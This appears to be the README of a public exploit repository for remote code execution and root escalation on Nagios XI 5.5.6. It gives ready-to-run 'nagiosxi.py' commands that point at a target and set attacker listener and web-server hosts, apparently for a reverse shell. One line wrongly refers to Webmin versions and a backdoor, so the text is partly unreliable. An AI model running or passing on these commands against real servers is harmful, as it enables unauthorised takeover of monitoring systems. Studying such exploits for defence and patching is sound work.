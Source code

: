 # Nagios XI 5.5.6 Remote Code Execution and Privilege Escalation

```
1.  Nagios XI 5.5.6
```

## Explanation of the exploit
`https://medium.com/tenable-techblog/rooting-nagios-via-outdated-libraries-bb79427172`

### Script Usage:
#### Tested on v1.890, but should also work for other webmin versions in which this backdoor is installed.
`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/root.png)

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888 -shell low`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/low_priv.png)
